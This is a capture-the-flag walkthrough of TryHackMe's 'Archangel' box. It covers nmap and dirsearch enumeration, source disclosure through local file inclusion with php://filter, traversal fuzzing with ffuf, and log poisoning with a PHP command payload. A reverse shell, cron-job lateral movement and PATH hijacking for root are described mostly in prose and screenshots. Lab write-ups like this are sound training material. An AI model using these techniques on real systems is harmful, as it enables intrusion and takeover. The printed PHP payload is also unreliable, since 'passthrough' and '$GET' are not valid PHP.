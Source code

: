 In this walkthrough, we'll go over a challenge (easy) level box called ***Archangel*** on [TryHackMe](https://tryhackme.com/room/archangel) 

![Archangel](archangel.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.7.126 --open
```
It looks like the ports 22 and 80 are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 13:37 EDT
Nmap scan report for mafialive.thm (10.10.7.126)
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/test.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
```
When we visit the webpage, we can see that there is another domain:
![Archangel Index](aa-index-html.png)

Let's add that to the "/etc/hosts" file. Upon visiting the site, we can see the first flag. However, in this tutorial I'll be focusing on initial foothold and privilege escalation.

![Archangel New Domain](aa-new-domain.png)

We can run dirsearch on this new website `dirsearch -u http://mafialive.thm/ -r -f -t 50 -x 302,400,403,500,503 -w /usr/share/we/wordlists/dirb/big.txt`:
![Archangel Dirsearch](aa-new-domain-dirsearch.png)

We then check "robots.txt" and find another page "test.php" also dirsearch found that page:

![Archangel Test PHP](aa-new-domain-test-php.png)

After visiting http://mafialive.thm/test.php, we can see that the page is executing PHP:
![Archangel Test PHP exe](aa-test-php.png)
![Archangel Click](aa-click-button.png)

I use `php://filter/convert.base64-encode/resource=` function to obtain the content of test.php
`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`
![Archangel PHP Filter](aa-php-filter.png)

I then decode the encoded string and find the content of the test php file:
![Archangel Decode](aa-decode-test-php.png)

We would need to use "/var/www/html/development_testing" in the command so we can now pursue the LFI attack vector. We can fuzz the "test.php" for LFI with ffuf
`ffuf -w /usr/share/wfuzz/wordlist/vulns/dirTraversal-nix.txt -u http://mafialive.thm/test.php?view=/var/www/html/development_testing/FUZZ -fs 286,310 -t 100`:
![Archangel ffuf](aa-ffuf-LFI.png)

I try the first payload in BurpSuite to display the output:
![Archangel Passwd](aa-etc-passwd.png)

We can inspect "/var/log/apache2/access.log" file:
![Archangel Apache2](aa-apache2-log.png)

### Poisoning a file for RCE via LFI
We can now pursue an RCE via poisoning "/var/log/apache2/error.log":
```php
<?php passthrough($GET['cmd']); ?>
```
![Archangel Poison](aa-posioning.png)

After that we are able to run "ls -la" command:
![Archangel ls](aa-posioning-ls.png)
![Archangel nc](aa-posioning-nc.png)

I downloaded php-revershell from pentestmonkey and transferred it to the target machine with wget:
![Archangel Transfer PHP Shell](aa-transfer-php-shell.png)
![Archangel Wget](aa-wget.png)
![Archangel PHP Reverse Shell](aa-php-revshell.png)
![Archangel Initial Foothold](aa-initial-foothold.png)

### Lateral Movement
We can first look at "/etc/crontab" and it shows that there is a cronjob running by archangel:
![Archangel Crontab](aa-crontab.png)

Since we have rights to edit the file, we can run a python revshell:
![Archangel SH](aa-helloworld-sh.png)
![Archangel Lateral Movement](aa-lateral-movement.png)

We now have a shell as archangel:

![Archangel User](aa-archangel-user.png)

In the archangle's home folder there is an exe called backup so let's create a file and made it executable:
![Archangel CP](aa-create-cp.png)

We can now add "/home/archange/secret" to the PATH variable and run the backup binary file:
![Archangel Root](aa-root-txt.png)

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
